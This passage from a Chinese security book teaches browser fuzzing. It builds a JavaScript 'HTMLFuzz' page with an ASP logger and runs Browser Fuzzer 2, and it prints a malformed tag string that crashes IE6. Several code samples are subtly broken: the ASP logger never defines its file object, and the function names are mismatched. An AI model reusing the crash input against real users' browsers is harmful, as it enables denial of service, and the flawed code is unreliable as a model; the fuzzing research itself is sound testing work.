在图 6.6 显示的“Internet 信息服务（IIS）”这一行前面的方框中打勾，然后点击“下一步”按钮，系统就会自动从光盘安装 IIS 到当前系统中，如图 6.7 所示。

成功安装完毕后，打开“控制面板”中的“管理工具”选项，你就可以看到一个“Internet 信息服务”的快捷方式，至此，IIS 就成功安装完毕，如图 6.8 所示。


> **小贴士：**  
> 如果在图 6.7 显示的安装过程中你发现系统给出警告提示，这说明你使用的系统光盘不是对应当前操作系统的。建议读者最好使用安装系统时使用的那张系统光盘来安装 IIS。  
> 同时，最好不要使用 Ghost 版本的 Windows 操作系统，因为 Ghost 版本的操作系统在很大程度上做过修改，不利于真实漏洞挖掘的测试环境。  
> 但是，也可能有部分读者手头只有 Ghost 版本的 Windows 操作系统光盘，或者已经安装了 Ghost 版本的 Windows 操作系统。在这种情况下要想运行 Web 应用程序的 Web 环境时，我们建议读者使用一个名叫“NetBox”的小软件。  
> 它的使用很简单，只需要直接打开 NetBox.exe 程序，然后将需要运行的 Web 应用程序放在与 NetBox.exe 程序所在的同一个文件目录下，就可以通过浏览器来访问这些 Web 应用程序。  
> 运行 NetBox.exe 程序后，NetBox.exe 程序会最小化显示在桌面的左下角，以一个黑色箭头来表示，鼠标右击该箭头就可以操作 NetBox.exe 程序，如图 6.9 所示。


#### 6.2.1 编写一个雏形的 HTMLFuzz


图 6.9 NetBox 程序的使用画面

有了 6.1 节中的解释，我们在心中就有了一个挖掘浏览器软件安全漏洞的思路。由于每一个 HTML 标签应当成对出现，有开始的标签就要有封闭的标签，但是，如果我们打乱这个顺序，让不同种类 HTML 标签的开始标签和封闭标签混乱叠加在一起，浏览器在解析这样的 HTML 代码时就往往会发生意想不到的错误。

由于我们的目的就是想要利用前面这个思路自己开发一个程序来实现对浏览器软件的自动化测试，所以与第 5 章介绍的 FileFuzz 一样，我们将自己开发出来的这个自动化挖掘浏览器软件漏洞的程序命名为“HTMLFuzz”，意思是利用 HTML 标签来实现暴力化安全测试。思路有了，我们就需要设计一下如何实现这个 HTMLFuzz。

我们分为四个步骤来实现。首先，第一步是找出所有可以用来测试的 HTML 标签。这个很简单，由于 HTML 标签都是由一个国际统一标准规定的，所以我们找到这个标准就可以找出所有 HTML 标签。由于这个标准发展的比较成熟的是第四代，所以我们要找的标准就被称之为“HTML 4”。为了方便大家，我这里将本次使用到的 HTML 标签做了一个表格列举在这里，也就是待测试 HTML 标签。这样大家可以不必再查询 HTML 4 标准了，见表 6.1 所示。

第二步，我们这次开发的 HTMLFuzz 不需要使用什么高级的编程语言，我们借助一种网页开发语言 JavaScript 来实现 HTMLFuzz 的开发。JavaScript 语言的使用十分简单，同时又不需要在系统上额外安装什么编程工具软件，利用 Windows 系统自带的记事本程序就可以编写代码，而且，JavaScript 语言可以与 HTML 语言共同使用在网页文件当中，十分方便大家的学习与使用。

| HTML 标签名称 | 标签所代表意义 |
|---|---|
| object | 向 HTML 页面中插入对象 |
| q | 分离文本中的引语 |
| strike | 以删除线字体渲染文本 |
| title | 包含文档的标题 |
| wbr | 向一块文本中插入软换行 |
| noBR | 不换行渲染文本 |
| param | 设置 APPLET、EMBED 或 OBJECT 元素的属性初始值 |
| style | 指定页面样式表 |
| optgroup | 允许对 select 元素中的选项进行逻辑分组 |
| base | 指定一个显式 URL 用于解析外部资源链接和引用 |
| big | 指定的文本块以比当前字体稍大的字体显示 |
| dir | 创建目录列表 |
| embed | 允许嵌入任何文档 |
| input | 创建各种表单输入控件 |
| b | 指定文本应以粗体渲染 |
| code | 指定代码范例 |
| dt | 在定义列表中表明定义术语 |

表 6.1 常见的 HTML 标签

> 小贴士：在后面的内容中，我会对 JavaScript 代码逐行进行解释，所以读者不必担心自己没有学过这个语言有不懂代码的问题。并且，一旦 HTMLFuzz 编写出来以后，在使用中大家只需要做很小的修改就可以直接拿去挖掘浏览器软件的安全漏洞，根本不用担心不懂语言如何使用 HTMLFuzz 的问题。

由于我们需要将表格 6.1 中的 HTML 标签进行混合，所以就不能按照“规律”来显示 HTML 标签。于是，我们决定利用随机数，从一个 HTML 标签数组中随机取出几个 HTML 标签组成一个网页文件来让浏览器解析，从而测试浏览器对这个随机组合的 HTML 标签在处理中会不会发生错误。

JavaScript 语言中有一个函数，叫做“Math.random()”，这个函数能够随机生成小于 1、大于 0 之间的一个数字。我们来做一个测试，打开 Windows 系统自带的记事本程序，在其中键入以下 JavaScript 代码（注意，`//` 符号后面的文字是注释，只是帮助大家理解代码的含义，不要将其输入到记事本当中。本章中以后的代码也都是这样，请大家注意）。

```html
<script> // 表示 JavaScript 代码的 HTML 标签
  document.write(Math.random()); // 使用 document.write 函数打印出 Math.random() 函数产生的随机数
</script> // 封闭表示 JavaScript 代码的 HTML 标签
```

保存上面这段测试代码为“随机数.htm”文件，用 Internet Explorer 6 浏览器打开该文件。在打开该文件的时候，Internet Explorer 6 浏览器会给出一个警告提示，如图 6.10 所示。

此时，鼠标单击浏览器上方的这个淡黄色警告提示条，然后选择“允许阻止的内容”，会出现一个新的警告窗口，如图 6.11 所示。

直接点击“是”按钮，我们的测试代码将会被成功运行，如图 6.12 所示。

图 6.12 中显示的“0.2015995035990541”这个数值就是来自于 Math.random() 函数产生的随机数。此时，不要关闭浏览器，按 F5 功能键，浏览器会刷新当前网页，这个时候数值就会发生变化，如图 6.13 所示。

我们发现图 6.13 中显示的数值已经不同于图 6.12 中显示的数值，这是由于每当网页刷新一次，Math.random() 函数就会重新随机生成一个新的数值。


> **小贴士**：在你测试过程中，这个数值可能与这里显示的不一样。这是由于 Math.random() 函数是随机生成数值，所以每一次调用 Math.random() 函数产生的数值都不会一样。

既然随机数有了，我们只需要建立一个包含有待测试 HTML 标签的数组，用随机数从中选取 HTML 标签进行组合就可以了。这部分代码如下。

```javascript
function num(){
  // 创建一个函数，这个函数的作用就是利用 Math.random() 函数来生成随机数
  // 由于 Math.random() 函数生成的随机数是小数形式，为此，我们利用判断随机数的范围来将它转换成整数
  // 因为 HTML 标签数组的位置是由整数来表示的
  var num = 0;
  var ran = Math.random(); // 生成随机数
  if (ran == 0) num = 0;
  if (ran < 0.1) num = 1;
  if (0.1 < ran && ran < 0.2) num = 2;
  if (0.2 < ran && ran < 0.3) num = 3;
  if (0.3 < ran && ran < 0.4) num = 4;
  if (0.4 < ran && ran < 0.5) num = 5;
  if (0.5 < ran && ran < 0.6) num = 6;
}
```

```javascript
if(0.6<ran&&ran<0.7) num=7;
if(0.7<ran&&ran<0.8) num=8;
if(0.9<ran&&ran<1) num=9; // 以上将随机数转换为整数
return num; // 将转换好的随机整数返回给调用者
}

function doit(){ // 这个函数用来实现随机选取待测试标签并且显示给浏览器

var tag0=Array("<object>","<q>","<strike>","<title>","<wbr>","<noBR>","<param>","<style>","<optgroup>","<base>");
var tag1=Array("<big>","<dir>","<embed>","<input>","<b>","<code>","<dl>");
var tag2=Array("</object>","</q>","</strike>","</title>","</wbr>","</noBR>","</param>","</style>","</optgroup>","</base>");
var tag3=Array("</big>","</dir>","</embed>","</input>","</b>","</code>","</dl>");
// 以上四行就是建立 HTML 标签的数组，前两行 tag0、tag1 是开始标签；后两行 tag2、tag3 是封闭标签

var nums;
var num0,num1,num2,num3,num4,num5,num6,num7,num8,num9;
var num10,num11,num12,num13,num14,num15,num16,num17,num18,num19,num20,num21;

num0=num();
num1=num();
num2=num();
num3=num();
num4=num();
num5=num();
num6=num();
num7=num();
num8=num();
num9=num();
num10=num();
num11=num();
num12=num();
num13=num();
num14=num();
num15=num();
num16=num();
num17=num();
num18=num();
num19=num();
num20=num();
num21=num();

// 上面这一段代码其实就是生成了 22 个随机整数，以便后面从 HTML 标签数组中选取 HTML 标签
var htms=tag0[num5]+tag1[num6]+tag1[num7]+tag0[num8]+tag1[num9]+tag0[num15]+tag2[num20]+tag0[num16]+tag3[num17]+tag0[num18];
// 这里就是利用随机整数来选取 tag0、tag1、tag2、tag3 数组中的 HTML 标签
document.write(htms); // 这是一个关键的地方，利用 document.write 函数将选取出来的 HTML 标签显示出来
// 浏览器开始解析这个随机选取的 HTML 标签组合，从而测试浏览器是否存在安全漏洞
```

第三步，虽然前面第二步中我们利用随机数可以选取出 HTML 标签来进行测试组合，但是，随机数只能使用一次，而我们的目的是要连续不断地自动化生成测试 HTML 标签组合，这意味着必须不断调用 Math.random() 函数来生成随机数，从而制造出测试用的 HTML 标签组合。

而要想再次调用随机数生成函数 `Math.random()` 就必须刷新当前网页，如果让我们不断地在计算机面前按 F5 功能键来刷新当前网页的话，这就又失去了自动化测试的意义。为此，我们需要找出一个办法让测试网页自己能够连续不断地刷新。

在 JavaScript 语言中有一个函数可以帮助我们实现这个功能，即 `setInterval` 函数。这个函数的功能是在超过指定的时间后可以调用某个功能做用户指定的事件。例如，我们将下面这段测试代码保存为 `test.htm` 文件。

```html
<script>
setInterval(function(){alert("Hello")},1000); // 设置 setInterval 函数每 1000 毫秒（1 秒钟）调用一次 alert
</script>
```


图 6.14 每间隔 1 秒钟弹出一个带有 hello 字眼的对话框

用浏览器打开 `test.htm`，你会发现浏览器每 1 秒钟后就会弹出一个带有 hello 字眼的对话框，效果如图 6.14 所示。

这真是太好了！我们可以利用 `setInterval` 函数来帮助我们自动刷新测试网页，具体代码实现如下：

```javascript
setInterval(function(){window.location=new String("http://127.0.0.1/htmlfuzz.htm")},10); // 每 10 毫秒自动重新打开本地计算机上的 htmlfuzz.htm 文件
```

第四步，也许有些读者看到上面第三步的时候觉得，现在我们的 HTMLFuzz 程序应该可以直接使用了，不需要什么第四步。因为自动刷新网页我们实现了，连续随机选取 HTML 标签组合我们实现了，显示 HTML 标签组合给浏览器，让浏览器软件进行解析我们也实现了，这不就可以实现连续测试浏览器软件了吗？

但是，你是否想到一个非常重要的地方。虽然前面三步足以让我们实现连续自动化测试浏览器对随机 HTML 标签组合解析是否存在安全漏洞，但是，一旦浏览器在解析某一个 HTML 标签组合时发生错误，Windows 系统会自动关闭浏览器软件。此时，由于 HTML 标签组合是随机的，你不可能知道，浏览器发生错误被自动关闭那一刻到底是怎么样的 HTML 标签组合导致了浏览器发生错误。我们需要在浏览器发生错误自动关闭之前记录下这个 HTML 标签组合，不然，我们不就白测试了吗？

记录这个 HTML 标签组合还有一个意义，这也让我们在发现浏览器软件出错而自动关闭后，可以再次利用记录下的 HTML 标签组合来重新触发浏览器错误，进而仔细分析该错误是不是属于安全漏洞，分析其出现错误的具体原因。

现在，你恍然大悟了吧，原来我们还真的差了一个重要步骤，即记录下被测试的 HTML 标签组合。

为了记录下随机生成的 HTML 标签组合，我们需要在我们的 HTMLFuzz 文件中加入一句代码，如下所示。

```javascript
document.write("<iframe width='0' height='0' src='www.asp?htm='+htms+''></iframe>");
```

这段代码的意思很简单，就是利用 `iframe` 标签将生成的 HTML 标签组合 `htms` 发送给 `www.asp` 文件，而 `www.asp` 文件将会记录下此刻生成的 HTML 标签组合。`www.asp` 文件的代码如下。

## 第6章 轻量级自动化测试程序 Browser Fuzzer

```asp
<%
'文件操作对象
p=server.mappath("htm.htm") '准备将测试记录写入到 htm.htm 文件中
set s=f.createTextFile(p) '打开 htm.htm 文件
s.write trim(request.querystring("htm")) '将接收到的测试代码写入到 htm.htm 文件
s.SetEOS '移动记录点到 htm.htm 文件最后
s.close '关闭 htm.htm 文件
%>
```

这段代码的意思总体来讲，就是利用系统自带的文件操作对象 scripting.filesystemobject 来向 htm.htm 文件中写入传递过来的 htm 变量值，即我们的 HTML 标签组合。至此，我们的 HTMLFuzz 全部编写完毕，它分为三个文件，第一个是主文件 htmlfuzz.htm，它的完整代码如下所示：

```html
<script>
function num()
{
    var num=0;
    var ran=Math.random();
    if(ran==0) num=0;
    if(ran<0.1) num=1;
    if(0.1<ran&&ran<0.2) num=2;
    if(0.2<ran&&ran<0.3) num=3;
    if(0.3<ran&&ran<0.4) num=4;
    if(0.4<ran&&ran<0.5) num=5;
    if(0.5<ran&&ran<0.6) num=6;
    if(0.6<ran&&ran<0.7) num=7;
    if(0.7<ran&&ran<0.8) num=8;
    if(0.9<ran&&ran<1) num=9;
    return num;
}

function doIt()
{
    var tag0=Array("<object>","<q>","<strike>","<title>","<wbr>","<noBR>","<param>","<style>","<optgroup>","<base>");
    var tag1=Array("<big>","<dir>","<embed>","<input>","<b>","<code>","<dl>");
    var tag2=Array("</object>","</q>","</strike>","</title>","</wbr>","</noBR>","</param>","</style>","</optgroup>","</base>");
    var tag3=Array("</big>","</dir>","</embed>","</input>","</b>","</code>","</dl>");

    var num5;
    var num0,num1,num2,num3,num4,num5,num6,num7,num8,num9;
    var num10,num11,num12,num13,num14,num15,num16,num17,num18,num19,num20,num21;

    num0=num();
    num1=num();
    num2=num();
    num3=num();
    num4=num();
    num5=num();
    num6=num();
    num7=num();
    num8=num();
    num9=num();
    num10=num();
    num11=num();
    num12=num();
    num13=num();
    num14=num();
    num15=num();
    num16=num();
    num17=num();
    num18=num();
    num19=num();
    num20=num();
    num21=num();

    var htms=tag0[num5]+tag1[num6]+tag1[num7]+tag0[num8]+tag1[num9]+tag0[num15]+tag2[num20]+tag1[num16]+tag3[num17]
    +tag0[num18]+tag2[num1]+tag1[num19]+tag3[num11]+tag0[num10]+tag0[num4]+tag1[num3]+tag2[num2]+tag2[num0]+tag1[num12]+tag2[num13]+tag3[num14];

    document.write('<iframe width=0 height=0 src="www.asp?htm='+htms+'"></iframe>');

    document.write(htms);
}

doit();
setInterval(function(){window.location=new String('http://192.168.1.3/htmlfuzz.htm');},10);

</script>
```

第二个文件就是 HTML 标签记录文件 **www.asp**，它的代码前面已经给出。

第三个文件就是 **htm.htm** 文件，即保存 HTML 标签组合结果的文件。你可以利用记事本新建一个空白 TXT 文件，然后重命名为“htm.htm”文件即可。

非常简单的三个文件，不需要用什么高级编程语言编写一个类似 FileFuzz 那样的可执行文件，而是三个文本文件就可以完成对浏览器软件的漏洞挖掘，真可谓是“轻量级”的漏洞挖掘程序。

既然 HTMLFuzz 编写完毕，那么它的效果如何呢？能不能挖掘出浏览器软件的安全漏洞呢？我们前面介绍的利用随机 HTML 标签组合来测试浏览器安全漏洞的思想到底能不能奏效呢？要回答这些问题，就让我们用 HTMLFuzz 进行一次漏洞挖掘实战，看一看它能否给我们带来一个惊喜吧！

#### 6.2.2 IE6 Nday 的挖掘全过程

本次被测试的目标软件前面已经说过是 Windows XP SP2 系统自带的浏览器 Internet Explorer 6。由于浏览器的作用就是访问远程网址，也就是远程服务器上的 Web 服务程序。为此，我们专门安装了 IIS 这个 Web 服务程序用来模拟远程 Web 服务程序，只不过 IIS 是安装在了一台计算机上，我们称之为“本地计算机”。要想访问本地计算机上的 IIS，我们只需要在浏览器地址栏中输入 http://127.0.0.1 就可以访问到计算机上的 IIS。这样的网络格式中 127.0.0.1 这个 IP 地址就代表了计算机自己。

不过，在访问本地计算机的 IIS 之前，我们需要将我们的 HTMLFuzz 程序放置在 IIS 指定的目录下。因为我们的 HTMLFuzz 程序就是由网页文件组成的，必须通过 IIS 来解析后才能传递给浏览器。

放置 HTMLFuzz 到 IIS 的方法为，首先将 HTMLFuzz 的三个文件 htmlfuzz.htm、htm.htm、www.asp 保存住同一个文件目录下，例如 D 盘下的 test 目录当中，如图 6.15 所示。


然后，依次打开“控制面板”里“管理工具”当中的“Internet 信息服务”，并点击小电脑标志前面的十字按钮，如图 6.16 所示。


此时，Internet 信息服务窗口中会出现一个“网站”图标，再次点击该图标前面的十字按钮，如图 6.17 所示。


在图 6.17 中我们看到出现了一个“默认网站”的图标，在该图标上鼠标右击，在出现的菜单中选择“属性”，打开“默认网站属性”设置对话框，如图 6.18 所示。

点击“默认网站属性”设置对话框中的“主目录”，切换到主目录设置面板，如图 6.19 所示。

点击图 6.19 中的“浏览”按钮，选择到我们放有 HTMLFuzz 三个文件的目录。同时，按照图 6.19 显示的那样，将“本地路径”下方的六个子选项全部打勾。点击“确定”保存当前设置。

> **小贴士：** 这里请注意，在设置完 IIS 之后，我们必须保证 IIS 处于正常工作状态。也就是说，我们必须设置完 IIS 后，再次点击图 6.17 中的“默认网站”图标，然后观察 IIS 主界面上方的箭头状态是否正常。如果不是，则证明 IIS 没有正常工作。此刻，你可以点击相关箭头让 IIS 正常工作起来。不然，我们将无法通过浏览器访问到 HTMLFuzz 程序。


通过上面的步骤，我们已经将 HTMLFuzz 文件设置到了 IIS 的 Web 目录当中。也就是说，此刻如果我们在浏览器中输入 http://127.0.0.1/htmlfuzz.htm，就可以成功访问到我们的 HTMLFuzz 程序了。

但是，请不要心急。由于是挖掘浏览器的安全漏洞，在测试过程中浏览器难免会因为测试而发生错误，我们最好找一个软件帮助我们监视浏览器发生的错误，从而在自动化测试的同时，能够及时截获浏览器发生错误的状态，便于我们分析什么原因造成了浏览器发生错误。

细心的读者一定还记得这个软件其实我们在本书的第一章中就已经用到了，那就是 OllyICE 程序。不过与第一章不一样，我们这一次是将 OllyICE 程序设置为“实时调试器”。


> **小知识：** 实时调试器是这样一种功能——Windows 系统在发现系统内运行的某个程序发生错误而无法继续运行的时候，它可以自动调用调试器程序来捕获当前程序的错误，从而方便程序开发人员及时分析程序出错的原因。也就是说，实时调试器能够在程序发生错误的第一时间获取到程序出错的所有信息，极大地方便了我们分析程序发生错误的具体原因。


设置 OllyICE 程序为实时调试器的方法很简单，运行 OllyICE 程序，在其“选项”菜单中找到“实时调试设置”选项，如图 6.20 所示。点击“实时调试设置”出现一个新的对话框，如图 6.21 所示。

图 6.21 显示的就是 OllyICE 的实时调试设置选项，我们看到此刻 Windows 系统默认的实时调试器是“drwtsn32”这个程序，也就是我们常听说的“华生医生”。直接点击“设置 OllyICE 为实时调试器”按钮，然后点击“完成”就将 OllyICE 程序设置为了系统此刻的实时调试器程序。

> **小贴士：** 注意，此刻如果“附件前无需确认”按钮不是灰色的，一定要将其点击为灰色。


一切准备工作全部完成，打开本次被测试的目标软件 Internet Explorer 6，在其地址栏中输入 http://127.0.0.1/htmlfuzz.htm，回车。你会发现 Internet Explorer 6 浏览器已经开始不停地刷新测试网页了，如图 6.22 所示。

这个过程是一个完全自动化的过程，我们不需要做任何辅助工作，你甚至可以去喝一杯茶，放松放松。


在测试一段时间后，我们发现计算机屏幕上显示的内容发生了变化，如图 6.23 所示。

此刻，Internet Explorer 6 浏览器的程序界面不见了，取而代之的是 OllyICE 程序的界面，这意味着 OllyICE 程序监视到 Internet Explorer 6 程序在运行中发生了错误，因为我们前面讲过 OllyICE 程序此刻是系统的实时调试器。

从图6.23中我们可以看到，Internet Explorer 6 程序发生错误的原因是 CPU 在执行“mov eax, dword ptr [edi]”这条指令时，edi 寄存器指向的内存地址为 00000000，这是一个不存在的内存地址，Internet Explorer 6 程序无法继续执行下去，从而出错，OllyICE 程序监测到了这个错误，于是，出现了图6.23所示的画面。

看起来我们的 HTMLFuzz 程序确实有效，它成功造成了 Internet Explorer 6 程序发生错误，那么到底 HTMLFuzz 程序产生的哪种 HTML 标签组合导致了 Internet Explorer 6 程序出错呢，我们想要再看一看这个错误发生过程怎么办？

还记得我们使用 www.asp 来保存 HTMLFuzz 程序产生的 HTML 标签组合吧，每一次 HTMLFuzz 程序产生的 HTML 标签组合都被保存在 htm.htm 这个文件当中。打开 D 盘 test 目录下的 htm.htm 这个文件，我们看到了导致 Internet Explorer 6 程序发生错误的 HTML 标签组合，如下所示：

```html
<object><q><strike><title><wbr></nobr></param></style></title></optgroup><base>undefined<big><dir><embed><input><b></code></dt></embed></input>
```

现在，重新打开 OllyICE 程序中的实时调试设置选项，即图6.21中那个对话框。点击其中的“恢复原有的实时调试器”按钮，不再设置 OllyICE 程序为实时调试器。我们重新打开 Internet Explorer 6 浏览器，在其地址栏中输入 http://127.0.0.1/htm.htm，回车，你会发现 Internet Explorer 6 浏览器在打开这个网址的时候发生了崩溃，Internet Explorer 6 浏览器的界面瞬间消失了！

其实，这就是一个典型的“拒绝服务漏洞”。拒绝服务漏洞特指那些能够造成软件无法正常使用、发生自动关闭、假死现象的安全漏洞。我们上面利用 HTMLFuzz 程序发现的这个安全漏洞就属于一个能够造成 Internet Explorer 6 浏览器发生自动关闭的拒绝服务漏洞。微软曾经还专门发布安全公告，说 Internet Explorer 6 浏览器在处理特殊的 HTML 标签时会发生自动关闭，导致用户无法正常使用。但是，微软并没有公布漏洞的细节，今天，我们却利用 HTMLFuzz 程序成功地发现了这个安全漏洞，不得不说是一件值得令人兴奋的事情，因为这个漏洞可是我们利用自己编写 HTMLFuzz 程序发现的！

### 6.3 便利的脚本工具 bf2_pl.pl

前面，我带领大家自己开发出了一款 HTMLFuzz 程序，用这个 HTMLFuzz 程序我们成功发现了微软 Internet Explorer 6 浏览器的一个安全漏洞。总的来说，我们编写出来的这个 HTMLFuzz 程序利用了一个思想，就是通过随机的 HTML 标签组合来挖掘浏览器的安全漏洞。但是，前面 6.1 节中，我们还提到过另外一种挖掘浏览器软件安全漏洞的思想，那就是通过修改 HTML 标签的属性设置选项，例如给某个标签的属性设置为过长字符串或者超大的数字，从而来测试浏览器软件在解析这样带有特殊属性值的 HTML 标签时会不会发生安全漏洞。

这个新的漏洞挖掘思想，我们也可以自己编写出测试程序，不过，已经有人为我们编写好了测试程序，我们何不拿来直接使用呢？

#### 6.3.1 bf2_pl.pl 的简介

“bf2_pl.pl”是 Browser Fuzzer 2 程序的文件名称，Browser Fuzzer 2 是由 Jeremy Brown 开发的一款针对浏览器软件进行自动化漏洞挖掘的程序。Browser Fuzzer 2 的官方网址是 http://www.krakowlabs.com/dev/fuz/bf2/bf2.pl.txt，你可以从这个网址下载到该程序。

Browser Fuzzer 2 程序的核心思想就是利用了我们前面给大家介绍的修改 HTML 标签属性值为超长字符串或者超大数据等特殊数值的方法来测试浏览器在解析这些被修改后的 HTML 标签时会不会发生严重的运行错误，从而挖掘出浏览器软件的安全漏洞。

Browser Fuzzer 2 程序在修改 HTML 标签的属性值时不单单采用了超长字符串或者超大数据，而且还采用了很多特殊的数值，如 C:/WINDOWS/system32/calc.exe、test,C:/WINDOWS/system32/calc.exe;test 等等，这些特殊的数值（类似 Windows 系统下的文件目录或者文件路径名称）目的是为了测试浏览器在解析被修改属性值的 HTML 标签时，会不会发生除了溢出漏洞以外的特殊安全漏洞（这里指的特殊漏洞其实主要是指当浏览器在运行时会不会同时运行当前系统的文件）。

举个例子来说，如果浏览器在解析这些被修改属性值的 HTML 标签时，将 HTML 标签属性值作为调用文件的路径，那么当我们设置某个 HTML 标签的属性值为 C:/WINDOWS/system32/calc.exe 时，浏览器在打开包含有这个 HTML 标签的网页文件时就会自动运行本地计算机上的 calc.exe 程序，即 Windows 系统自带的计算器程序。这可是一种非常严重的安全漏洞，假设恶意攻击者可以将一个木马病毒程序放入到用户的计算机系统内，但是，他没有办法让用户运行这个木马病毒程序，此刻，恶意攻击者可以利用浏览器的这种漏洞来诱导用户通过浏览器访问恶意网页，该恶意网页利用浏览器的这个漏洞从而间接运行恶意攻击者放置在用户计算机上的木马病毒程序，成功运行木马病毒程序后，恶意攻击者就实现了远程控制用户计算机的目的。

由此可见，Browser Fuzzer 2 程序的设计者在编写该漏洞挖掘程序时考虑到了很多漏洞的种类，这大大提高了我们来实现对浏览器软件漏洞的成功挖掘机率。

Browser Fuzzer 2 程序通过修改 HTML 标签的属性值，将每一次修改结果保存为一个网页文件，这个网页文件被我们称作“待测试网页文件”。这一点与前面第 5 章介绍的 FileFuzz 程序十分类似，都是生成待测试文件，调用被测试软件打开这些待测试文件，从而观察被测试软件是否会发生错误。

不过，对于 Browser Fuzzer 2 程序来说，它在生成完待测试网页文件之后工作就结束了。你一定纳闷，那么谁来调用浏览器软件自动打开这些待测试网页文件呢？

其实，Browser Fuzzer 2 程序生成的待测试网页文件中隐含了一个技巧，每一个由 Browser Fuzzer 2 程序生成的待测试网页文件的原始代码中包含了一段非常巧妙的 HTML 代码，这段看起来不起眼的代码却起到了让浏览器自动打开待测试网页文件的关键作用。

```html
<head><meta http-equiv="refresh" content="1; url=xxx.html"></head>
```

代码中利用“refresh”这个属性值命令浏览器自动刷新，同时利用“url”这个属性值命令浏览器在刷新的同时打开 xxx.html 这个网页文件。由于 Browser Fuzzer 2 程序生成的待测试网页文件都是以数字为名字连续编号的，如 html1.html、html2.html……，这样，只要第一个待测试网页文件中的“url”指向第二个待测试网页文件，第二个待测试网页文件中的“url”指向第三个待测试网页文件，以此类推，浏览器在打开第一个待测试网页文件之后就会自动刷新从而打开第二个待测试网页文件，打开第二个待测试网页文件之后就会自动刷新从而继续打开第三个待测试网页文件……，这段巧妙的 HTML 代码就帮助我们自动完成了调用浏览器软件连续打开待测试网页文件的工作。

还有一个地方，虽然说现在我们能够让浏览器自动连续打开 Browser Fuzzer 2 程序生成的待测试网页文件了，但是，测试结果又从哪里获得呢？前面第 5 章中的 FileFuzz 程序可以自动记录被测试文件处理型软件出错的信息，那么这个程序应该从哪里获得浏览器软件在测试过程中发生错误的信息呢？关于这一点，我们需要借助 OllyICE 程序来帮助我们监视浏览器软件的运行过程，前面我们给大家介绍了，OllyICE 程序可以被设置为“实时调试器”，这样一旦在测试过程中发生错误，OllyICE 程序马上就会捕获到浏览器发生的错误，从而让我们能够及时分析浏览器发生错误的原因。

#### 6.3.2 bf2_pl.pl 的使用要求

从官方网站下载到 Browser Fuzzer 2 程序的主文件 bf2.pl.txt 后，需要将该文件重命名为“bf2.pl”。这是因为，Browser Fuzzer 2 程序是由 Perl 语言编写的。

- **小知识**：Perl 语言是一种非常方便的高级程序开发语言，利用记事本这样的程序就可以实现代码的编写。

在 Windows 系统下，Perl 语言编写的程序必须使用 Perl 语言的运行环境才能够被解析执行，为此，我们需要在 Windows 系统下安装 Perl 语言的运行环境。该运行环境一般被称作“ActivePerl”。

ActivePerl 分为多个版本，我们这里使用的是 ActivePerl 5.10.0.1004 这个版本，对应的安装程序是 ActivePerl-5.10.0.1004-MSWin32-x86-287188.msi，你可以在本书配套光盘中找到该安装程序。

ActivePerl 的安装过程十分简单，只需要按照默认设置一步一步安装至完成即可。安装好 ActivePerl 运行环境之后，你会发现此刻 bf2.pl 文件的图标已经发生了变化，如图6.24所示。

此时，证明你已经成功安装好了 Perl 语言的运行环境，可以正常使用 Browser Fuzzer 2 程序了。

不过，在使用 Browser Fuzzer 2 程序之前，我们千万别忘了一件事情。由于 Browser Fuzzer 2 程序采用的原理是将 HTML 标签的属性值修改为超长数据或者超大数字等特殊数值，然后将这些被修改的 HTML 标签保存为待测试网页文件。这个时候，Browser Fuzzer 2 程序提供的超长数据可能会是一个由 20,000,000 个字母组成的超长数据，这就等于该测试网页文件的大小至少要为 19M。要知道，Browser Fuzzer 2 程序生成的待测试网页文件可不是一两个，它依据被测试 HTML 标签的数量，可能会生成几百个或者几千个待测试网页文件，这么多数量的待测试网页文件所占据的磁盘空间是相当惊人的，所以，这里建议读者最好在测试之前，专门腾出一个磁盘分区，大小在 10G 以上，来保证 Browser Fuzzer 2 程序生成的待测试网页文件能够全部被存放。

好了，关于 Browser Fuzzer 2 程序的原理和使用注意事项，我们已经给大家做了详细的介绍；现在，是要检测 Browser Fuzzer 2 程序是不是真的能够挖掘出浏览器软件漏洞的时候了，大家准备好了吗？

#### 6.3.3 实战 bf2_pl.pl 挖掘 Safari 4 Remote Crash 漏洞

首先，还是对本次演示的软件环境做一个介绍。

| 项目 | 内容 |
|---|---|
| 操作系统 | Windows XP SP2 32位版本 |
| 漏洞利用工具运行环境 | IIS 5.1 |
| 漏洞测试目标软件 | Safari 4 |
| 辅助软件 | OllyICE 1.0 |

Safari 4 是一个由苹果公司开发的浏览器软件，我们这里测试的是它的 Windows 版本，其准确版本号如图6.25所示。

在系统中安装好被测试的 Safari 4 浏览器软件之后，打开 Windows 系统自带的命令行窗口，也就是在系统“开始”菜单中，找到“运行”选项，打开“运行”选项，在出现的对话框中输入“cmd”回车就会打开系统自带的命令行窗口。

在命令行窗口中，通过“cd bf2.pl 文件所在目录”切换到 Browser Fuzzer 2 程序所在的文件目录（我们这里将 bf2.pl 文件放置在了“F:\nohack\第5章”这个文件目录下），如图6.26所示。

然后，键入“bf2.pl -o 放置待测试网页文件的文件目录名称 -p 3”回车，Browser Fuzzer 2 程序将会自动在你设定的放置待测试网页文件的文件目录中生成待测试网页文件，如图6.27所示（这里设定的放置待测试网页文件的文件目录是 H 盘下的 bffuzz 目录）。

这个待测试网页文件生成过程十分耗时，可能你需要等待很长时间，Browser Fuzzer 2 程序才能够全部完成待测试网页文件生成工作，其实这也是 Browser Fuzzer 2 程序的开发者为了能够更加全面地挖掘浏览器软件漏洞而如此设计的。

- 小贴士：在生成待测试网页文件的过程中，我们不需要干扰计算机的工作，Browser Fuzzer 2 程序会自动运行直到结束。但是，如果你发现你所设定用来放置待测试网页文件的磁盘空间不够了，你可以立即按下 Ctrl+X 组合键来中断 Browser Fuzzer 2 程序的运行，然后，重新设定放置待测试网页文件的文件目录。如果你没有足够的磁盘空间来放置待测试网页文件，你也可以利用 Ctrl+X 组合键来终止 Browser Fuzzer 2 程序只生成一部分的待测试网页文件。只不过这样做，你的测试可能就不够完整，会影响到发现漏洞的可能性。

等到 Browser Fuzzer 2 程序自动运行完毕后，你会发现你所设定的放置待测试网页文件目录中，充满了以“html数字”这样形式连续编号的网页文件，如图6.28所示。

- 小贴士：其实，这里大家不必打开放置待测试网页文件的文件目录，因为这里面的网页文件数量极其庞大，你的计算机在打开该文件目录时可能会发生系统假死的情况。这里只是为了给大家展示一下 Browser Fuzzer 2 程序自动生成的待测试网页文件而已。

生成好待测试网页文件之后，我们利用 IIS 的 Web 目录设置功能，也就是前面图6.19显示的“主目录”设置功能，设置放置待测试网页文件的文件目录为 Web 目录。

